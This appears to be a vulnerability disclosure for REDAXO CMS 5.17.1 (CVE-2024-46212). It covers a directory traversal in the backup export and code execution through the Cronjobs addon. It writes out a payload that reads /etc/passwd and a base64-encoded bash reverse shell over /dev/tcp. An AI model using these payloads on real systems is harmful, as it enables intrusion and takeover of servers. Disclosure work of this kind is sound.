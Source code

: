 # REDAXO Directory Traversal Exploit

## Basic Info

- **Exploit Title:** REDAXO Directory Traversal Exploit
- **Exploit Author:** L7dia
- **Vendor Homepage:** https://redaxo.org/
- **Software Link:** https://github.com/redaxo/redaxo
- **Version:** 5.17.1
- **Tested on:** Ubuntu20.04/PHP8.2
- **Payload:** `<?php system('cat /etc/passwd'); ?>`
- **CVE:** CVE-2024-46212

## Description

redaxo cms allows attackers to perform directory traversal and file downloads through the "/index.php?page=backup/export" page. Attackers can modify the name of the backup folder during the backup operation to obtain sensitive directory files.
In the private static function addFolderToTar(rex_backup_tar $tar, $path, $dir) method of the source code https://github.com/redaxo/redaxo/blob/main/redaxo/src/addons/backup/lib/backup.php file, the opendir() method is used to process the incoming directory parameter without any processing, allowing attackers to tamper with the value of the parameter to implement the attack.

## Proof of Concept

1. Log in as an administrator.
2. Navigate to the AddOns-Backup page.
3. Select "Create file backup", select "Download as file".
4. Open burpsuite or other tools, intercepting packets, and change the "EXPDIR" to other path with path traversal. 
5. Forwarding tampered packets, get the compressed file of sensitive directory. 

![image-20240826223611894](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408262236052.png)

![image-20240826224123827](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408262241891.png)

![image-20240826224130059](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408262241105.png)

![image-20240826224146801](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408262241858.png)

# Cronjobs AddOns RCE



![image-20240827112702567](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271127718.png)

![image-20240827112715931](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271127055.png)



```
http://127.0.0.1/redaxo/redaxo/index.php?page=cronjob/cronjobs&func=add&list=cronjobs
```

![image-20240827112917694](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271129798.png)

```
<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx|base64 -d|bash -i')?>
```

![image-20240827112938919](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271129994.png)

![image-20240827113004575](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271130633.png)

Affected component(s)

```
Affected source code file: https://github.com/redaxo/redaxo/blob/main/redaxo/src/addons/cronjob/pages/cronjobs.php
Affected module: Cronjob addon
```



Attack vector(s)

```
1. Log in as an administrator
2. Navigate to the AddOns-Cronjobs page(If not present, can install it by Main menu-AddOns)
3. Create a new cronjob, set "Type" to "PHP-Code", and set "PHP-Code" to evil PHP code, such as remote code execution.
4. (Optional) Set "Environment" to "Backend", can execute cronjobs mannually.
5. Save the cronjob, wait for automatic execution or execute it mannually. And then attackers can get shell or achieve other evil purpose.

Example Evil PHP-Code:
<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx|base64 -d|bash -i')?>
```



Suggested description of the vulnerability for use in the CVE

```
REDAXO CMS allows attackers to execution evil php code in Cronjobs Addon. Attackers can set any php code without verified as cronjob to achieve their evil purpose, even get shell.
```



